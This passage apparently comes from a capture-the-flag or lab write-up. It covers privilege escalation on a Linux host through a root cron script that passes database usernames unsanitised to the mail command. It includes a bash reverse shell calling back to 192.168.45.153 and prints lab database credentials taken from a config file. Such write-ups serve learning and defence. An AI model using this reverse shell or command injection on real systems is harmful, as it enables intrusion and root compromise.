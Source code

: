 Nothing much, it just keeps running the `python` script. I also ran `pspy64` to enumerate the processes the `root` user might be running:

```
2023/07/21 04:02:01 CMD: UID=0    PID=43727  | /bin/sh -c /opt/check_mailpass_expiration.sh 
2023/07/21 04:02:01 CMD: UID=0    PID=43731  | /bin/bash /opt/check_mailpass_expiration.sh
```

`root` is running a certain script. Here's the script contents:

```bash
#!/bin/bash
#Adapt to your setup

POSTFIX_DB="postfixadmin"
MYSQL_CREDENTIALS_FILE="/root/postfixadmin.my.cnf"

REPLY_ADDRESS=noreply@spaghetti.lan

# Change this list to change notification times and when ...
for INTERVAL in 30 14 7
do
    LOWER=$(( $INTERVAL - 1 ))

    QUERY="SELECT username,password_expiry FROM mailbox WHERE password_expiry > now() + interval $LOWER DAY AND password_expiry < NOW() + interval $INTERVAL DAY"

    mysql --defaults-extra-file="$MYSQL_CREDENTIALS_FILE" "$POSTFIX_DB" -B -e "$QUERY" | while read -a RESULT ; do
        echo -e "Dear User, \n Your password will expire on ${RESULT[1]}" | mail -s "Password 30 days before expiration notication" -r $REPLY_ADDRESS  ${RESULT[0]}
    done

done
```

The script basically sends emails to users. However, I noticed that the parameters from the MySQL database aren't sanitised at all, and passed directly into the `mail` command. This opens up a chance for injecting some commands. `${RESULT[0]}` is the parameter that is vulnerable, and it is the `username` parameter from the database.&#x20;

To exploit this, we can first put a reverse shell script within the host and `chmod` it:

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.153/21 0>&1
```

Now, we need to find SQL credentials, which might be located within the Postfix files based on the name of the file `root` uses. I found it within the `/var/www/postfixadmin/config.local.php` file:

```
hostmaster@spaghetti:/var/www/postfixadmin$ cat config.local.php 
<?php
$CONF['configured'] = true;
$CONF['password_expiration'] = 'YES';
$CONF['database_type'] = 'mysqli';
$CONF['database_host'] = 'localhost';
$CONF['database_user'] = 'postfixadmin';
$CONF['database_password'] = 'P4s8vV0r6';
$CONF['database_name'] = 'postfixadmin';
<TRUNCATED>
```
